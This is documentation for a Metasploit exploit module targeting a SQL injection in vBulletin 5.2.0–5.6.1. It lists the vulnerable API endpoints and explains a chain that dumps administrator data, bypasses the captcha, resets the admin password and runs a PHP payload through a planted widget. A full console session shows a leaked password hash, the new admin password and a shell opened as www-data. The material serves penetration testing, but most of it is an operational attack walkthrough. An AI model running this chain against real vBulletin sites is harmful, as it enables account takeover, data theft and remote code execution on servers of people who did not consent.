 ## Vulnerable Application

  [vBulletin](https://www.vbulletin.com) A popular PHP bulletin board and blog web application.
  This module has been tested successfully against vBulletin 5.6.1 running on Ubuntu Linux 19.04

### Description

This module exploits a SQL injection vulnerability present in vBulletin 5.2.0 through 5.6.1 in the
`getIndexableContent` function. This vulnerability is triggered through the `nodeId` variable and
can be reached through multiple paths (listed below) but is exploited in this module utilizing the
`/ajax/api/content_infraction/getIndexableContent` path.

- /ajax/api/content_video/getIndexableContent
- /ajax/api/content_text/getIndexableContent
- /ajax/api/content_report/getIndexableContent
- /ajax/api/content_redirect/getIndexableContent
- /ajax/api/content_privatemessage/getIndexableContent
- /ajax/api/content_poll/getIndexableContent
- /ajax/api/content_photo/getIndexableContent
- /ajax/api/content_link/getIndexableContent
- /ajax/api/content_infraction/getIndexableContent
- /ajax/api/content_gallery/getIndexableContent
- /ajax/api/content_event/getIndexableContent
- /ajax/api/content_channel/getIndexableContent
- /ajax/api/content_attach/getIndexableContent

Each path listed above reaches the `getIndexableContent` function within the `/core/vb/library/content.php`
file. The SQL injection attack used utilizes a UNION query in order to leak data back in the response
`rawtext` field.

#### Leveraging getContentIndexable SQL injection for RCE

The exploit begins by attempting to get a `nodeid` for use in the SQL injection attack, this can be supplied
by the user within the `NODE` module option, or if not supplied, the value is brute-forced within the bounds
of the `MINNODE` and `MAXNODE` module options. After acquiring a valid `nodeid`, the exploit attempts to obtain
the vBulletin install's table prefix. This is done by using the `getIndexableContent` SQL injection vulnerability
to query the `INFORMATION_SCHEMA` table and get a result we expect (to determine if there is a prefix attached).
In the module we use the `language` table for this process. After getting the table prefix we can begin dumping
the table data, we start with the administrator user id, username, token, and email. These are used later in the
process to make a lost password request and can also be used to backup the administrator user's data prior to the
destructive change that will happen when the password is changed later in the module. After acquiring the
administrator info the script begins the to gather other pieces needed to submit a lost password request. This
part can vary between installs but involves a form of "human verification" along with an administrator's email.
The module will attempt to determine the human verification (or captcha) type, then determine if a bypass or solve
is possible. There are 4 total types of human verification, an image (GD or ImageMagic based), a Question/Answer
(which is stored as a regular expression), Recaptcha2 (an external api based captcha), and disabled.

- If an `Image` (GD or ImageMagic based) human verification is selected, the module can bypass it and requires
no interaction. This is done by querying the database for the image contents using the SQL injection vulnerability.

- If the `Question/Answer` human verification is selected, the module will attempt to submit the answer retrieved
from the database utilizing the SQL injection vulnerability. This can sometimes fail and require manual intervention
if a complex regular expression is used but the answer is provided through the modules output.

- If the `Recaptcha2` human verification method is selected, the module will fail with a message along with an
administrators email to use for a lost password request.

- If `Disabled` is chosen, the script will work without action.

After bypassing the human verification the script will attempt to send a lost password request, this will send
an email to the administrator. If the human verification request fails, the module can be configured to skip the
human verification and lost password steps. This is done by setting the modules `MANUALLOSTPASS` option to true,
**this however does require that just prior to running the exploit the lost password request is made**. If the
administrator completes the request, the activation token will be removed from the database and the next step of
the reset will fail. After the lost password request is made, the module then attempts to retrieve the Activation
ID from the database using the SQL injection vulnerability. When all of the above is completed, the administrators
password can finally be reset. The password is changed to a random 10-16 character alphanumeric password which is
displayed in the modules output.

The module can now begin to leverage the administrator access for remote command execution. This begins by first creating
a new widget instance, this widget instance is of a `widget_php` type (a special type that allows for php code embedded
within). After the widget instance is created, the module then attempts to modify the widget to add our selected payload.
The widget is then ready to use and is added to a new page. This page is created with a randomly generated 10 to 16
character alphanumeric url. The payload and attack is then ready to execute and the module makes a final request in the
attack process to execute the PHP payload. Upon successful completion, the page is deleted from the vBulletin install.

## Verification Steps

1. Do: ```use exploit/multi/http/vbulletin_getindexablecontent```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set VHOST [HOSTNAME]```
4. Do: ```set TARGETURI [PATH]```
5. Do: ```set PAYLOAD [PAYLOADNUM]```
6. Do: ```run```

## Options

### MANUALLOSTPASS

A boolean value used to determine if the lost password request should be automated or will be performed manually. **Default: false**

### NODE

A valid node id value for the vBulletin install. When provided, this value is used instead of that acquired by brute-forcing.

### MINNODE

A minimum nodeid value to begin with when brute-forcing for a valid node id. **Default: 1**

### MAXNODE

A maximum nodeid value to end with when brute-forcing for a valid node id. **Default: 200**

### TARGETURI

The base URI path of vBulletin. **Default: /**

## Scenarios

```
msf > use exploit/multi/http/vbulletin_getindexablecontent 
msf exploit(multi/http/vbulletin_getindexablecontent) > set RHOSTS vb.local
RHOSTS => vb.local
msf exploit(multi/http/vbulletin_getindexablecontent) > set VHOST vb.local
VHOST => vb.local
msf exploit(multi/http/vbulletin_getindexablecontent) > set TARGETURI /vb5
TARGETURI => /vb5
msf exploit(multi/http/vbulletin_getindexablecontent) > set PAYLOAD 2
msf exploit(multi/http/vbulletin_getindexablecontent) > check
[*] 192.168.1.100:80 - The target appears to be vulnerable.
msf exploit(multi/http/vbulletin_getindexablecontent) > run

[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Brute forcing to find a valid node id.
[+] Successfully found node at id 1
[*] Attempting to determine the vBulletin table prefix.
[*] Performing SQL injection on target to retrieve 'table_name' from 'information_schema.columns'.
[+] Successfully retrieved table to get prefix from vb5_language.
[*] Performing SQL injection on target to retrieve 'userid' from 'vb5_administrator'.
[*] Performing SQL injection on target to retrieve 'username' from 'vb5_user'.
[*] Performing SQL injection on target to retrieve 'token' from 'vb5_user'.
[*] Performing SQL injection on target to retrieve 'email' from 'vb5_user'.
[+] Retrieved administrator uid: 1 user: administrator email: zenofex@exploitee.rs and password: $2y$15$IKz0ra/N2WrJr4BZZMExIOwIET.4Tz8Wni20BMEHjG/A.k9tuOK.W
[*] Sending request to '/vb5/ajax/api/hv/fetchHvType' to get human verification type.
[+] Retrieved HV/captcha type of 'Image'.
[*] Making request to '/vb5/ajax/api/hv/generateToken' to retrieve HV token.
[+] Retrieved '85885c3fafb61b91cb3d2959e13ffe07' human verification token.
[*] Using HV token '85885c3fafb61b91cb3d2959e13ffe07' and SQLinjection to determine HV answer.
[*] Performing SQL injection on target to retrieve 'answer' from 'vb5_humanverify'.
[+] Retrieved '4w8CPc' answer to HV token '85885c3fafb61b91cb3d2959e13ffe07'.
[*] Making request to '/vb5/auth/lostpw' to begin lost password process.
[*] Performing SQL injection on target to retrieve 'activationid' from 'vb5_useractivation'.
[*] Sending reset password request to '/vb5/auth/reset-password'.
[+] User with userid '1' successfully reset password to 'dSxTtxI7yh'.
[*] Making login request to '/vb5/auth/ajax-login' with username: 'administrator' and password: 'dSxTtxI7yh'.
[+] Successfully logged in as administrator .
[*] Making request to '/vb5/ajax/activate-sitebuilder' to activate site-builder functionality.
[+] Successfully enabled site-builder functionality.
[*] Making login request to '/vb5/auth/ajax-login' with username: 'administrator' and password: 'dSxTtxI7yh'.
[+] Successfully logged in as administrator cplogin.
[*] Making request to '/vb5/ajax/api/widget/saveNewWidgetInstance' to create new widget.
[+] Created new widget instance.
[*] Making request to '/vb5/ajax/api/widget/saveAdminConfig' to add payload to widget.
[+] Successfully added payload to widget.
[*] Sending request to '/vb5/admin/savepage' to save new page at 'OToB9nTU'.
[+] Page successfully create and should be accessible at '/vb5/OToB9nTU'.
[+] Executing PHP payload (230 bytes) at /vb5/OToB9nTU.
[*] Sending request to '/vb5/OToB9nTU' to execute payload.
[*] Sending delete page request to '/vb5/ajax/api/page/delete'.
[+] Successfully deleted page with pageid: 148
[*] Started bind TCP handler against 192.168.1.100:4444
[*] Command shell session 1 opened (0.0.0.0:0 -> 192.168.1.100:4444) at 2020-05-22 21:24:42 -0500

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
